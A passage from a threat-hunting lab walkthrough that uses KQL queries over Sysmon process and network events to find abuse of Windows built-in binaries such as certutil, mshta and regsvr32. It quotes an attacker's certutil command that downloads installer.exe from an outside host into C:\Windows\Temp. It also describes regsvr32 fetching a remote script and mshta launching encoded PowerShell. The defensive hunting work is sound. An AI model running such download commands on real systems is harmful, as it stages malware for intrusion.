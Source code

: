 - Most of these binaries, known as `Living Off The Land Binaries (LOLBAS)`, are documented on this [page](https://lolbas-project.github.io/). Using this resource, we will hunt usage of built-in binaries and investigate unusual commands executed and network connections initiated.


`5.` Using the `Discover` tab, we will hunt some built-in tools typically used by threat actors:
```c
- Certutil
- Mshta
- Regsvr32
```


By using the following KQL query, we will again hunt `process creation` (Sysmon Event ID 1) as well as `network connection` (`Sysmon Event ID 3`) events:
```c
host.name: WKSTN-* AND winlog.event_id: (1 OR 3) AND (process.name: (mshta.exe OR certutil.exe OR regsvr32.exe) OR process.parent.name: (mshta.exe OR certutil.exe OR regsvr32.exe))
```

**Note: The `KQL` query also lists all child processes spawned by these `LOLBAS`, which is why the** `process.parent.name` **field is also used.** 

Moreover, we can use the following fields as columns to aid in our analysis:
```c
- 'winlog.computer_name' -> maps to hostname
- 'user.name'
- 'process.parent.command_line'
- 'process.name'
- 'process.command_line'
- 'destination.ip' -> maps to the IP the infected device might connect to
```


![](/assets/img/Pasted image 20240502021110.png)



`6.` Based on the results, it can be observed that all three binaries were suspicious due to their usage. Let's elaborate further on each binary.

<u>High-level View</u>:
```c
(a) 'Certutil' was used to download a binary (installer.exe), which is then stored in 'C:\Windows\Temp'. (Remember that this binary was also discovered from the previous command-line tools investigation.)
(b) 'Regsvr32' accessed a remote file (teams.sct), then spawned a suspicious encoded PowerShell command.
(c) 'Mshta' spawned a suspicious encoded PowerShell command.
```

<u>Certutil command</u>:
```c
certutil  -urlcache -split -f http://www.oneedirve.xyz/321c3cf/installer.exe C:\Windows\Temp\installer.exe 
```

```c
1. 'certutil': This is a command-line utility in Windows used to perform various certificate-related operations, including downloading files from URLs.

2. '-urlcache': This is an option for `certutil` that specifies the operation to be performed, which in this case is URL caching.

URL caching, in the context of the command you provided (`certutil -urlcache`), refers to the process of storing downloaded files from a given URL in a local cache. This cache allows for quicker access to the files if they are requested again in the future without needing to download them again from the remote server.

```